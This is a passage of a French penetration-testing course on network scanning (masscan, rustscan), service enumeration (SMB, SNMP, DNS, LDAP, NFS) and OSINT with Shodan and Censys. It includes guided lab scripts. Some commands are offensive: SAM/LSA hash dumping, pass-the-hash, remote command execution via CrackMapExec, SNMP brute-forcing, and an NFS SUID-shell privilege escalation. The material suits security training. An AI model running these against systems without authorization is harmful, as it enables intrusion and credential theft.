# Scan avec interface spécifique
sudo masscan -e eth0 10.0.0.0/24 -p80,443

# Scan avec adresse source spécifique
sudo masscan --src-ip 192.168.1.100 192.168.1.0/24 -p80

# Scan avec port source spécifique
sudo masscan --src-port 53 192.168.1.0/24 -p80
```

### 3.4 Options avancées

```bash
# Format de sortie
sudo masscan 192.168.1.0/24 -p80,443 \\
    --rate=10000 \\
    -oJ masscan_result.json \\
    -oX masscan_result.xml \\
    -oL masscan_result.txt

# Exclure des adresses IP
sudo masscan 192.168.1.0/24 -p80,443 \\
    --exclude 192.168.1.1 \\
    --exclude 192.168.1.254

# Scan avec timeout
sudo masscan 192.168.1.0/24 -p80 --wait 10

# Scan avec ports aléatoires (contournement IDS)
sudo masscan 192.168.1.0/24 -p0-65535 --shards 4

# Scan de multiples plages
sudo masscan 192.168.1.0/24 10.0.0.0/8 -p80,443,22
```

### 3.5 Masscan → Nmap pipeline

```bash
# Étape 1 : Masscan pour trouver les ports ouverts
sudo masscan 192.168.1.0/24 -p1-65535 \\
    --rate=10000 \\
    -oL masscan_ports.txt

# Étape 2 : Extraire les IP:port
grep "open tcp" masscan_ports.txt | \\
    awk '{print $4 ":" $3}' > targets.txt

# Étape 3 : Lancer Nmap sur chaque cible pour le détail
while read target; do
    ip=$(echo $target | cut -d: -f1)
    port=$(echo $target | cut -d: -f2)
    sudo nmap -sV -O -p "$port" --script default,vuln "$ip" -oA "nmap_detail_${ip}_${port}"
done < targets.txt
```

### 3.6 TP Guidé — Scanner 10.0.0.0/24 en 10 secondes

#### Objectif
Scanner le sous-réseau 10.0.0.0/24 pour trouver tous les ports ouverts en moins de 10 secondes.

```bash
# Étape 1 : Déterminer la bande passante disponible
echo "=== Test de bande passante ==="
sudo masscan 10.0.0.1 -p80 --rate=100000 2>&1 | head -5 || true

# Étape 2 : Scan complet du /24 en 10 secondes
echo "=== Scan complet 10.0.0.0/24 ==="
mkdir -p rapport-masscan

time sudo masscan 10.0.0.0/24 -p1-65535 \\
    --rate=2000000 \\
    --wait 0 \\
    --retries 0 \\
    -oL rapport-masscan/scan-10s.txt

# Si rate trop élevé pour le réseau, réduire
echo "=== Scan avec rate adapté ==="
time sudo masscan 10.0.0.0/24 -p1-65535 \\
    --rate=500000 \\
    --wait 5 \\
    --retries 1 \\
    -oJ rapport-masscan/scan-10s.json
```

**Analyse des paramètres :**
- `--rate=2000000` : 2 millions de paquets par seconde (très agressif)
- `--wait 0` : ne pas attendre les réponses (scan purement proactif)
- `--retries 0` : pas de réessai en cas de perte

```bash
# Étape 3 : Analyser les résultats
echo "=== Analyse des résultats ==="

# Compter le nombre de ports ouverts trouvés
grep "open tcp" rapport-masscan/scan-10s.txt | wc -l

# Afficher les résultats structurés
grep "open tcp" rapport-masscan/scan-10s.txt | \\
    awk '{print $4 " → " $3 "/" $2 " (" $5 ")"}' | \\
    sort -t. -k1,1n -k2,2n -k3,3n -k4,4n

# Étape 4 : Exporter pour Nmap (approfondissement)
grep "open tcp" rapport-masscan/scan-10s.txt | \\
    awk '{print $4 ":" $3}' > rapport-masscan/targets_nmap.txt

echo "Cibles à approfondir avec Nmap :"
wc -l rapport-masscan/targets_nmap.txt
```

**Résultat attendu :** Scan de 256 adresses IP × 65535 ports = 16 777 216 probes en ~10 secondes (si le réseau et la carte réseau le supportent).

---

## 4. Rustscan — Scan moderne

### 4.1 Installation

```bash
# Installation via cargo
# Nécessite Rust : curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
cargo install rustscan

# Installation via apt (Kali 2023+)
sudo apt install -y rustscan

# Installation manuelle
git clone https://github.com/RustScan/RustScan.git
cd RustScan
cargo build --release
sudo cp target/release/rustscan /usr/local/bin/

# Vérification
rustscan --version
```

### 4.2 Utilisation basique

```bash
# Scan simple d'une IP
rustscan -a 192.168.1.1

# Scan avec plage de ports
rustscan -a 192.168.1.1 --range 1-65535

# Scan de multiples cibles
rustscan -a 192.168.1.1,192.168.1.2,192.168.1.3

# Scan d'un sous-réseau
rustscan -a 192.168.1.0/24

# Scan avec timeout (ms)
rustscan -a 192.168.1.1 --timeout 500
```

### 4.3 Intégration avec Nmap

Rustscan est optimisé pour la rapidité (scan parallélisé en Rust) mais délègue le fingerprinting à Nmap.

```bash
# Intégration Nmap automatique
rustscan -a 192.168.1.1 -- -A -sV

# Avec scripts NSE
rustscan -a 192.168.1.1 -- -sC

# Avec OS detection
rustscan -a 192.168.1.1 -- -O

# Sortie XML Nmap
rustscan -a 192.168.1.1 -- -oX scan_result.xml

# Scan complet avec Nmap automatisé
rustscan -a 192.168.1.1 -p 1-65535 -- \\
    -sV -O -sC --script vuln \\
    -oX rustscan_detailed.xml
```

**Remarque :** Tout ce qui se trouve après `--` est passé directement à Nmap.

### 4.4 Options avancées Rustscan

```bash
# Voir les hôtes actifs sans les scanner en détail
rustscan -a 192.168.1.0/24 --greparable

# Scan avec batch size (nombre de ports par lot)
rustscan -a 192.168.1.1 --batch 500

# Scan avec ports personnalisés
rustscan -a 192.168.1.1 -p 22,80,443,3306,8080

# Scan avec timeouts réduits (plus rapide)
rustscan -a 192.168.1.1 -t 100

# Activer le mode verbose
rustscan -a 192.168.1.1 -v

# Utiliser une liste de cibles depuis un fichier
rustscan -a targets.txt
```

### 4.5 Comparaison Rustscan vs Masscan vs Nmap

```bash
# Benchmark : scan d'un /24 sur 1000 ports top
time sudo masscan 192.168.1.0/24 --top-ports 1000 --rate=500000
time rustscan -a 192.168.1.0/24 --range 1-1000 -t 200
time sudo nmap -sS -T4 --top-ports 1000 192.168.1.0/24
```

**Résultats typiques (sur réseau 1 Gbps) :**

| Outil | Temps | Précision | Détails |
|-------|-------|-----------|---------|
| Masscan | ~3s | Moyenne | Aucun (IP:port seulement) |
| Rustscan | ~15s | Bonne | Intégration Nmap possible |
| Nmap | ~5min | Excellente | OS, versions, scripts |

### 4.6 TP Guidé — Rustscan

#### Objectif
Utiliser Rustscan pour découvrir rapidement les services ouverts sur un sous-réseau, puis approfondir avec Nmap.

```bash
# Étape 1 : Découverte rapide avec Rustscan
echo "=== ÉTAPE 1 : SCAN RUSTSCAN ==="
mkdir -p rapport-rustscan

rustscan -a 192.168.1.0/24 \\
    --range 1-1000 \\
    -t 200 \\
    -b 1000 \\
    --greparable \\
    -o rapport-rustscan/scan-initial.txt

cat rapport-rustscan/scan-initial.txt

# Étape 2 : Approfondir chaque hôte avec Nmap
echo "=== ÉTAPE 2 : APPROFONDISSEMENT ==="

grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+' rapport-rustscan/scan-initial.txt | \\
    sort -u > rapport-rustscan/hosts.txt

while read ip; do
    echo "Approfondissement : $ip"
    rustscan -a "$ip" --range 1-65535 -t 300 -- \\
        -sV -O -sC --script vuln \\
        -oA "rapport-rustscan/detailed-$ip"
done < rapport-rustscan/hosts.txt

# Étape 3 : Générer un rapport consolidé
echo "=== ÉTAPE 3 : RAPPORT ==="
echo "Rapport Rustscan - $(date)" > rapport-rustscan/resume.txt

while read ip; do
    ports=$(grep "$ip" rapport-rustscan/scan-initial.txt | tr '\\n' ' ')
    echo "$ip : $ports" >> rapport-rustscan/resume.txt
done < rapport-rustscan/hosts.txt

echo "[✓] Scan Rustscan terminé. Voir rapport-rustscan/"
```

---

## 5. Énumération de services

### 5.1 SMB — Server Message Block (T1049)

Le protocole SMB est utilisé pour le partage de fichiers, d'imprimantes et de ports COM dans les réseaux Windows.

#### smbclient — Client SMB en ligne de commande

```bash
# Lister les partages SMB (sans authentification)
smbclient -L //192.168.1.1 -N

# Lister les partages avec authentification anonyme
smbclient -L //192.168.1.1 -U "" -N

# Lister les partages avec un nom d'utilisateur
smbclient -L //192.168.1.1 -U "administrateur"

# Connexion à un partage spécifique
smbclient //192.168.1.1/partage -U "utilisateur"

# Connexion avec un fichier de credentials
smbclient //192.168.1.1/partage -A credentials.txt

# Mode sans mot de passe (session null)
smbclient //192.168.1.1/partage -U "%" -N

# Télécharger tous les fichiers d'un partage
smbclient //192.168.1.1/partage -N -c 'prompt OFF; recurse ON; mget *'
```

**Interaction après connexion :**

```bash
smbclient //192.168.1.1/partage -U "admin"
# → smb: \\> ls          # Lister les fichiers
# → smb: \\> cd dossier  # Changer de dossier
# → smb: \\> get fichier.txt  # Télécharger un fichier
# → smb: \\> put local.txt    # Uploader un fichier
# → smb: \\> mkdir test       # Créer un dossier
# → smb: \\> rm fichier.txt   # Supprimer un fichier
# → smb: \\> exit             # Quitter
```

#### enum4linux — Énumération complète SMB

```bash
# Installation
sudo apt install -y enum4linux

# Énumération complète (tout en un)
enum4linux -a 192.168.1.1

# Énumération de l'OS
enum4linux -o 192.168.1.1

# Énumération des utilisateurs (via RID cycling)
enum4linux -U 192.168.1.1

# Énumération des partages
enum4linux -S 192.168.1.1

# Énumération des groupes
enum4linux -G 192.168.1.1

# Énumération des politiques de mot de passe
enum4linux -P 192.168.1.1

# Version étendue (enum4linux-ng)
sudo apt install -y enum4linux-ng
enum4linux-ng -A 192.168.1.1
enum4linux-ng -A -oY 192.168.1.1  # Sortie YAML
enum4linux-ng -A -oJ 192.168.1.1  # Sortie JSON
```

**RID Cycling expliqué :**
- RID (Relative Identifier) : identifiant unique pour chaque utilisateur/groupe
- Le RID 500 = administrateur, 501 = invité, 1000+ = utilisateurs créés
- enum4linux interroge les RID de 500 à 5000 pour trouver tous les utilisateurs

#### CrackMapExec (CME) — Framework SMB avancé

```bash
# Installation
sudo apt install -y crackmapexec

# Énumération des partages
crackmapexec smb 192.168.1.1 --shares

# Énumération des utilisateurs
crackmapexec smb 192.168.1.1 --users

# Énumération des groupes
crackmapexec smb 192.168.1.1 --groups

# Énumération des sessions actives
crackmapexec smb 192.168.1.1 --sessions

# Énumération des disques
crackmapexec smb 192.168.1.1 --disks

# Test d'accès anonyme
crackmapexec smb 192.168.1.1 -u '' -p ''

# Test de mot de passe faible
crackmapexec smb 192.168.1.1 -u 'admin' -p 'admin'

# Vérification MS17-010 (EternalBlue)
crackmapexec smb 192.168.1.1 -u 'user' -p 'pass' -M ms17-010

# Exécution de commande via SMB (si admin)
crackmapexec smb 192.168.1.1 -u 'admin' -p 'password' -x 'whoami'

# Dump des hashs SAM (si admin)
crackmapexec smb 192.168.1.1 -u 'admin' -p 'password' --sam

# Dump des hashs LSA Secrets
crackmapexec smb 192.168.1.1 -u 'admin' -p 'password' --lsa

# Module Spider+ (chercher des fichiers spécifiques)
crackmapexec smb 192.168.1.1 -u 'admin' -p 'pass' -M spider_plus \\
    -o READ_ONLY=false OUTPUT_FOLDER=cme_spider

# Test sur plusieurs hôtes
crackmapexec smb 192.168.1.0/24 -u 'admin' -p 'password' --shares

# Utiliser des hashs (Pass-the-Hash)
crackmapexec smb 192.168.1.1 -u 'admin' -H 'LMHASH:NTHASH' --shares
```

#### smbmap — Cartographie des partages

```bash
# Installation
sudo apt install -y smbmap

# Énumération des partages (null session)
smbmap -H 192.168.1.1 -u '' -p ''

# Énumération avec authentication
smbmap -H 192.168.1.1 -u 'admin' -p 'password'

# Énumération récursive des partages accessibles
smbmap -H 192.168.1.1 -u '' -p '' -R

# Recherche de fichiers spécifiques
smbmap -H 192.168.1.1 -u '' -p '' -R -F "*.txt"

# Upload de fichier
smbmap -H 192.168.1.1 -u 'admin' -p 'password' --upload 'local.txt' 'remote.txt'

# Download de fichier
smbmap -H 192.168.1.1 -u 'admin' -p 'password' --download 'C$/Users/admin/secret.txt'
```

### 5.2 SNMP — Simple Network Management Protocol (T1046)

SNMP est utilisé pour la gestion des équipements réseau. Il expose énormément d'informations si la communauté est faible.

#### Installation

```bash
# Outils SNMP
sudo apt install -y snmp snmp-mibs-downloader
sudo download-mibs

# Configuration pour utiliser les MIBs
echo "mibs +ALL" | sudo tee -a /etc/snmp/snmp.conf

# onesixtyone (brute-force de communautés)
sudo apt install -y onesixtyone

# snmp-check
sudo apt install -y snmpcheck
```

#### snmpwalk — Énumération SNMP

```bash
# Walk complet de l'arbre OID (public community)
snmpwalk -v2c -c public 192.168.1.1

# Walk avec version 1
snmpwalk -v1 -c public 192.168.1.1

# Walk d'une OID spécifique (système)
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.2.1.1

# Walk des interfaces réseau
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.2.1.2

# Walk des processus en cours
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.2.1.25.4.2.1.2

# Walk des utilisateurs
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.4.1.77.1.2.25

# Walk des partages Windows
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.4.1.77.1.2.27

# Walk des logiciels installés
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.2.1.25.6.3.1.2

# Walk du stockage
snmpwalk -v2c -c public 192.168.1.1 1.3.6.1.2.1.25.2.3.1.3
```

**OIDs SNMP utiles :**

| OID | Description |
|-----|-------------|
| 1.3.6.1.2.1.1.1.0 | Description du système |
| 1.3.6.1.2.1.1.5.0 | Nom d'hôte |
| 1.3.6.1.2.1.1.6.0 | Localisation |
| 1.3.6.1.2.1.25.4.2.1.2 | Processus en cours |
| 1.3.6.1.2.1.25.6.3.1.2 | Logiciels installés |
| 1.3.6.1.2.1.2.2.1.2 | Interfaces réseau |
| 1.3.6.1.4.1.77.1.2.25 | Utilisateurs Windows |
| 1.3.6.1.4.1.77.1.2.27 | Partages Windows |
| 1.3.6.1.4.1.77.1.4.1 | Sessions SMB |
| 1.3.6.1.2.1.25.2.3.1.3 | Points de montage |

#### onesixtyone — Brute-force de communautés SNMP

```bash
# Scanner un réseau avec des communautés par défaut
onesixtyone 192.168.1.0/24

# Avec une liste de communautés personnalisée
echo -e "public\\nprivate\\nmanager\\nsecret\\nsnmp\\nadmin" > community.txt
onesixtyone -c community.txt 192.168.1.0/24

# Avec timeout et délai personnalisés
onesixtyone -c community.txt -t 5000 -d 100 192.168.1.0/24

# Sortie vers fichier
onesixtyone -c community.txt -o snmp_results.txt 192.168.1.0/24
```

#### snmp-check — Rapport SNMP automatisé

```bash
# Scan complet d'une cible SNMP
snmp-check 192.168.1.1 -c public -v2c

# Scan avec timeout
snmp-check 192.168.1.1 -c public -v2c -t 10

# Sortie vers fichier
snmp-check 192.168.1.1 -c public -v2c > rapport-snmp.txt
```

### 5.3 DNS — Domain Name System (T1590)

#### dig — Domain Information Groper

```bash
# Résolution DNS simple
dig example.com

# Requête vers un serveur DNS spécifique
dig @8.8.8.8 example.com

# Type d'enregistrement spécifique
dig example.com A          # Enregistrement IPv4
dig example.com AAAA       # Enregistrement IPv6
dig example.com MX         # Mail exchange
dig example.com NS         # Name servers
dig example.com CNAME      # Canonical name
dig example.com TXT        # Text records
dig example.com SOA        # Start of authority
dig example.com ANY        # Tous les enregistrements

# Résolution inverse (PTR)
dig -x 8.8.8.8

# Tente de transfert de zone
dig @ns1.example.com example.com AXFR

# Transfert de zone avec short output
dig @ns1.example.com example.com AXFR +short

# Affichage court
dig example.com +short

# Suivi de la délégation DNS
dig example.com +trace

# Résolution avec DNSSEC
dig example.com +dnssec

# Batch lookup (depuis un fichier)
dig -f domains.txt +short
```

#### nslookup — Simple DNS lookup

```bash
# Résolution de nom
nslookup example.com

# Résolution avec serveur spécifique
nslookup example.com 8.8.8.8

# Mode interactif
nslookup
> server 8.8.8.8
> set type=MX
> example.com
> set type=ANY
> example.com
> ls -d example.com  # Tentative de zone transfer
> exit

# Résolution inverse
nslookup 8.8.8.8

# Type MX
nslookup -type=MX example.com

# Type TXT
nslookup -type=TXT example.com
```

#### dnsrecon — Énumération DNS avancée

```bash
# Installation
sudo apt install -y dnsrecon

# Énumération de base
dnsrecon -d example.com

# Transfert de zone
dnsrecon -d example.com -t axfr

# Brute-force de sous-domaines
dnsrecon -d example.com -D /usr/share/wordlists/amass/subdomains-top1mil.txt -t brt

# Énumération SRV (services)
dnsrecon -d example.com -t srv

# Énumération avec résolution inverse
dnsrecon -d example.com -t rvl -r 192.168.1.0/24

# Détection de DNS wildcard
dnsrecon -d example.com -t wild

# Scan complet
dnsrecon -d example.com -t std
dnsrecon -d example.com -D subdomains.txt -t brt -c output.csv
```

#### dnsenum — Énumération DNS exhaustive

```bash
# Installation
sudo apt install -y dnsenum

# Énumération complète (par défaut)
dnsenum example.com

# Avec brutes force de sous-domaines
dnsenum --enum example.com -f /usr/share/wordlists/dnsmap.txt

# Avec thread
dnsenum --threads 10 example.com

# Avec sortie vers fichier
dnsenum example.com -o dnsenum_output.xml

# Énumération complète avec tout
dnsenum \\
    --dnsserver 8.8.8.8 \\
    --threads 20 \\
    --timeout 10 \\
    --pages 5 \\
    --scrap 1 \\
    --file /usr/share/wordlists/dnsmap.txt \\
    --enum \\
    example.com
```

#### Zone Transfer — La faille classique du DNS

```bash
# Test de zone transfer avec dig
for ns in $(dig example.com NS +short); do
    echo "=== Test NS: $ns ==="
    dig @$ns example.com AXFR +short
done

# Test de zone transfer avec dnsrecon
dnsrecon -d example.com -t axfr

# Test de zone transfer avec nmap
nmap --script dns-zone-transfer --script-args dns-zone-transfer.domain=example.com -p 53 example.com

# Script bash complet
#!/bin/bash
DOMAIN="${1}"
if [ -z "$DOMAIN" ]; then
    echo "Usage: $0 <domain>"
    exit 1
fi

NAMESERVERS=$(dig "$DOMAIN" NS +short)

for ns in $NAMESERVERS; do
    echo "[*] Test de $ns..."
    RESULT=$(dig @"$ns" "$DOMAIN" AXFR +short 2>&1)
    if [ -n "$RESULT" ]; then
        echo "[✓] Zone transfer réussi depuis $ns !"
        dig @"$ns" "$DOMAIN" AXFR +noall +answer
    else
        echo "[✗] Zone transfer refusé par $ns"
    fi
    echo ""
done
```

### 5.4 LDAP — Lightweight Directory Access Protocol (T1087)

L'annuaire LDAP (Active Directory) contient l'intégralité des utilisateurs, groupes, ordinateurs et politiques de sécurité.

#### ldapsearch — Client LDAP standard

```bash
# Installation des outils LDAP
sudo apt install -y ldap-utils

# Requête LDAP basique (sans auth)
ldapsearch -x -H ldap://192.168.1.1 -b "dc=example,dc=com"

# Requête avec authentification simple
ldapsearch -x -H ldap://192.168.1.1 \\
    -D "cn=admin,dc=example,dc=com" \\
    -w "password" \\
    -b "dc=example,dc=com"

# Énumération de tous les utilisateurs
ldapsearch -x -H ldap://192.168.1.1 \\
    -b "dc=example,dc=com" \\
    -s sub \\
    "(objectClass=user)" \\
    sAMAccountName displayName mail

# Énumération de tous les groupes
ldapsearch -x -H ldap://192.168.1.1 \\
    -b "dc=example,dc=com" \\
    -s sub \\
    "(objectClass=group)" \\
    cn member

# Énumération des ordinateurs
ldapsearch -x -H ldap://192.168.1.1 \\
    -b "dc=example,dc=com" \\
    -s sub \\
    "(objectClass=computer)" \\
    cn operatingSystem dNSHostName

# Énumération des administrateurs du domaine
ldapsearch -x -H ldap://192.168.1.1 \\
    -b "cn=Domain Admins,cn=Users,dc=example,dc=com" \\
    -s sub \\
    "(objectClass=group)" \\
    member

# Recherche d'utilisateurs sans mot de passe requis
ldapsearch -x -H ldap://192.168.1.1 \\
    -b "dc=example,dc=com" \\
    "(userAccountControl:1.2.840.113556.1.4.803:=32)" \\
    sAMAccountName

# Recherche de mots de passe qui n'expirent jamais
ldapsearch -x -H ldap://192.168.1.1 \\
    -b "dc=example,dc=com" \\
    "(userAccountControl:1.2.840.113556.1.4.803:=65536)" \\
    sAMAccountName
```

**Filtres LDAP utiles :**

```bash
# Tous les utilisateurs
(objectClass=user)

# Tous les groupes
(objectClass=group)

# Tous les ordinateurs
(objectClass=computer)

# Utilisateurs actifs
(&(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))

# Utilisateurs avec mot de passe qui n'expire pas
(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=65536))

# Groupes avec membres
(&(objectClass=group)(member=*))
```

**Flags UserAccountControl expliqués :**

| Valeur | Signification |
|--------|---------------|
| 2 | Compte désactivé |
| 32 | Mot de passe non requis |
| 512 | Compte standard activé |
| 65536 | Mot de passe n'expire jamais |
| 66048 | Compte standard + mot de passe permanent |
| 262144 | Compte de type service (SPN) |
| 4194816 | Compte administrateur avec privilèges |

#### windapsearch — Script Python pour l'énumération LDAP

```bash
# Installation
git clone https://github.com/ropnop/windapsearch.git
cd windapsearch
pip3 install -r requirements.txt

# Énumération des utilisateurs
python3 windapsearch.py --dc-ip 192.168.1.1 -u "" -U

# Énumération des administrateurs
python3 windapsearch.py --dc-ip 192.168.1.1 -u "" -d example.com --admin-count

# Énumération des groupes
python3 windapsearch.py --dc-ip 192.168.1.1 -u "" -G

# Énumération des ordinateurs
python3 windapsearch.py --dc-ip 192.168.1.1 -u "" -C

# Énumération des utilisateurs privilégiés
python3 windapsearch.py --dc-ip 192.168.1.1 -u "" --privileged-users

# Utilisateurs avec SPN (pour Kerberoasting)
python3 windapsearch.py --dc-ip 192.168.1.1 -u "" --da

# Avec authentification
python3 windapsearch.py --dc-ip 192.168.1.1 -u 'admin' -p 'password' -U
```

#### ldapdomaindump — Dump de l'annuaire en fichiers lisibles

```bash
# Installation
pip3 install ldapdomaindump

# Dump complet de l'annuaire
ldapdomaindump ldap://192.168.1.1 \\
    -u "EXAMPLE\\\\administrator" \\
    -p "P@ssw0rd" \\
    -o ldap-dump/

# Contenu du dossier ldap-dump/
ls -la ldap-dump/
# → domain_users.html      → Utilisateurs (HTML lisible)
# → domain_users.json      → Utilisateurs (JSON)
# → domain_groups.html     → Groupes
# → domain_computers.html  → Ordinateurs
# → domain_policy.html     → Politiques
# → domain_trusts.html     → Relations de confiance
```

### 5.5 NFS — Network File System

NFS permet le partage de fichiers sur les systèmes UNIX/Linux.

```bash
# Installation des outils NFS
sudo apt install -y nfs-common

# Découverte des exports NFS
showmount -e 192.168.1.1

# Montage d'un partage NFS
sudo mount -t nfs 192.168.1.1:/partage /mnt/nfs

# Montage avec version spécifique
sudo mount -t nfs -o vers=3 192.168.1.1:/partage /mnt/nfs

# Montage avec options de sécurité (noexec)
sudo mount -t nfs -o noexec,nosuid 192.168.1.1:/partage /mnt/nfs

# Lister les exports avec Nmap
nmap -p 2049 --script nfs-ls,nfs-showmount,nfs-statfs 192.168.1.1

# Énumération complète NFS
nmap -p 2049 --script "nfs-*" 192.168.1.1
```

**Exploitation d'un mauvais root squash :**

```bash
# Vérifier si "root_squash" est désactivé
cat /etc/exports
# /export *(rw,no_root_squash)  → Exploitable

# Créer un fichier SUID sur le partage
sudo mount -t nfs 192.168.1.1:/export /mnt/nfs
sudo cp /bin/bash /mnt/nfs/shell
sudo chmod u+s /mnt/nfs/shell
# Puis exécuter /mnt/nfs/shell -p depuis la cible
```

### 5.6 TP Guidé — Énumération complète de services

#### Objectif
Effectuer une énumération complète de tous les services découverts sur un sous-réseau.

```bash
#!/bin/bash
# enum-services.sh — Énumération complète des services
# Usage : sudo ./enum-services.sh <sous-reseau>
# Exemple : sudo ./enum-services.sh 192.168.1.0/24

set -e

SUBNET="${1}"
RAPPORT_DIR="rapport-enum-$(date +%Y%m%d_%H%M%S)"

if [ -z "$SUBNET" ]; then
    echo "Usage : $0 <sous-reseau>"
    exit 1
fi

mkdir -p "$RAPPORT_DIR"
echo "[*] Rapport dans : $RAPPORT_DIR"

echo "[1/6] Découverte des hôtes actifs..."
sudo nmap -sn -T4 "$SUBNET" -oG "${RAPPORT_DIR}/01-hosts.gnmap"

grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+' "${RAPPORT_DIR}/01-hosts.gnmap" | \\
    sort -u > "${RAPPORT_DIR}/hosts.txt"

NB_HOSTS=$(wc -l < "${RAPPORT_DIR}/hosts.txt")
echo "  → $NB_HOSTS hôtes découverts"

echo "[2/6] Scan des ports (top 1000)..."
while read -r ip; do
    sudo nmap -sS -sV -T4 --top-ports 1000 \\
        -oN "${RAPPORT_DIR}/02-ports-${ip}.txt" \\
        "$ip" > /dev/null 2>&1
done < "${RAPPORT_DIR}/hosts.txt"

echo "[3/6] Énumération SMB..."
for ip in $(grep -l "445/open" "${RAPPORT_DIR}"/02-ports-*.txt 2>/dev/null | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+'); do
    echo "  → SMB : $ip"
    enum4linux -a "$ip" > "${RAPPORT_DIR}/03-smb-${ip}.txt" 2>/dev/null
    smbclient -L "//${ip}" -N > "${RAPPORT_DIR}/03-smb-shares-${ip}.txt" 2>/dev/null
    crackmapexec smb "$ip" --shares > "${RAPPORT_DIR}/03-smb-cme-${ip}.txt" 2>/dev/null
done

echo "[4/6] Énumération SNMP..."
for ip in $(grep -l "161/open" "${RAPPORT_DIR}"/02-ports-*.txt 2>/dev/null | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+'); do
    echo "  → SNMP : $ip"
    snmpwalk -v2c -c public "$ip" .1.3.6.1.2.1.1 \\
        > "${RAPPORT_DIR}/04-snmp-system-${ip}.txt" 2>/dev/null
    snmp-check "$ip" -c public -v2c \\
        > "${RAPPORT_DIR}/04-snmp-full-${ip}.txt" 2>/dev/null
done

echo "[5/6] Énumération DNS..."
for ip in $(grep -l "53/open" "${RAPPORT_DIR}"/02-ports-*.txt 2>/dev/null | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+'); do
    echo "  → DNS : $ip"
    nmap -p 53 --script dns-zone-transfer,dns-nsid \\
        "$ip" > "${RAPPORT_DIR}/05-dns-${ip}.txt" 2>/dev/null
done

echo "[6/6] Énumération LDAP..."
for ip in $(grep -l "389/open\\|636/open\\|3268/open" "${RAPPORT_DIR}"/02-ports-*.txt 2>/dev/null | \\
    grep -oP '\\d+\\.\\d+\\.\\d+\\.\\d+'); do
    echo "  → LDAP : $ip"
    ldapsearch -x -H "ldap://${ip}" -b "" -s base \\
        "(objectClass=*)" namingContexts \\
        > "${RAPPORT_DIR}/06-ldap-base-${ip}.txt" 2>/dev/null

    domain=$(grep "namingContexts:" "${RAPPORT_DIR}/06-ldap-base-${ip}.txt" | \\
        awk '{print $2}' | grep -v CN | head -1)
    if [ -n "$domain" ]; then
        ldapsearch -x -H "ldap://${ip}" -b "$domain" \\
            "(objectClass=user)" sAMAccountName \\
            > "${RAPPORT_DIR}/06-ldap-users-${ip}.txt" 2>/dev/null
    fi
done

echo ""
echo "=========================================="
echo " Énumération terminée !"
echo " Résultats : ${RAPPORT_DIR}/"
echo "=========================================="
```

---

## 6. OSINT réseau

### 6.1 Shodan — Moteur de recherche d'équipements connectés

Shodan indexe les bannières de services de tous les équipements connectés à Internet.

#### Configuration

```bash
# Installation de l'outil CLI Shodan
pip3 install shodan

# Configuration de la clé API (obtenue sur https://account.shodan.io)
shodan init "VOTRE_CLE_API"

# Vérification du compte
shodan info
```

#### Recherches Shodan

```bash
# Recherche basique
shodan search "SSH"

# Recherche par service et pays
shodan search "apache country:FR"

# Recherche par organisation
shodan search "org:Google"

# Recherche par port
shodan search "port:443"

# Recherche par ville
shodan search "city:Paris"

# Recherche de vulnérabilités
shodan search "vuln:CVE-2021-41773"

# Recherche d'équipements spécifiques
shodan search "cisco ios"
shodan search "mikrotik"
shodan search "Siemens"

# Recherche de bases de données exposées
shodan search "MongoDB" --limit 10
shodan search "product:MySQL" --limit 5
shodan search "product:Elasticsearch"

# Recherche d'ICS/SCADA
shodan search "SCADA"
shodan search "MODBUS"
shodan search "S7"
```

#### Filtres Shodan avancés

```bash
# Filtres puissants
shodan search "apache after:2024-01-01 country:FR"
shodan search "port:3306 product:MySQL"
shodan search "port:445 os:Windows"
shodan search "hostname:example.com"
shodan search "ssl:example.com"
shodan search "net:203.0.113.0/24"
shodan search "has_vuln:true port:80"
shodan search "asn:AS15169"
```

#### Commandes avancées Shodan

```bash
# Informations d'un hôte spécifique
shodan host 8.8.8.8

# Statistiques d'une recherche
shodan stats --facets "port,country,org" "apache"

# Téléchargement des résultats
shodan download resultats "apache country:FR"

# Visualiser les résultats téléchargés
shodan parse --fields ip_str,port,org,hostnames resultats.json.gz

# Scan d'une plage IP (nécessite un abonnement)
shodan scan submit 203.0.113.0/24

# API Python
python3 -c "
import shodan
api = shodan.Shodan('VOTRE_CLE_API')
results = api.search('apache country:FR', limit=50)
for result in results['matches']:
    print(f\"{result['ip_str']}:{result['port']} — {result.get('http', {}).get('title', 'N/A')}\")
"
```

#### Recherche via l'API REST

```bash
# Recherche Shodan via curl
curl -s "https://api.shodan.io/shodan/host/search?key=VOTRE_CLE&query=apache+country:FR" | \\
    jq '.matches[] | {ip: .ip_str, port: .port, org: .org, hostnames: .hostnames}'

# Vulnérabilités d'un hôte
curl -s "https://api.shodan.io/shodan/host/203.0.113.1?key=VOTRE_CLE" | \\
    jq '{ip: .ip_str, ports: .ports, vulns: .vulns}'
```

### 6.2 Censys — Alternative à Shodan

```bash
# Installation
pip3 install censys

# Configuration
censys config

# Recherche d'hôtes
censys search "services.service_name: HTTP" --per-page 5

# Recherche par service
censys search "services.service_name: SSH"

# Recherche par pays
censys search "location.country: France"

# Recherche par réseau
censys search "ip: 203.0.113.0/24"

# Recherche de certificats TLS
censys search "services.tls.certificate.parsed.subject.common_name: example.com"

# Détails d'un hôte
censys view 8.8.8.8

# Via l'API directement
curl -s -u "API_ID:API_SECRET" \\
    "https://search.censys.io/api/v2/hosts/8.8.8.8" | \\
    jq '.result.ports'
```

### 6.3 Certificate Transparency — crt.sh

crt.sh indexe les certificats TLS publiés dans les logs Certificate Transparency.

```bash
# Recherche via l'API (format JSON)
curl -s "https://crt.sh/?q=example.com&output=json" | jq .

# Avec jq pour un format propre
curl -s "https://crt.sh/?q=%25.example.com&output=json" | \\
    jq -r '.[].name_value' | \\
    sort -u

# Script bash de découverte de sous-domaines
#!/bin/bash
DOMAIN="${1}"
echo "[*] Sous-domaines pour $DOMAIN via crt.sh..."
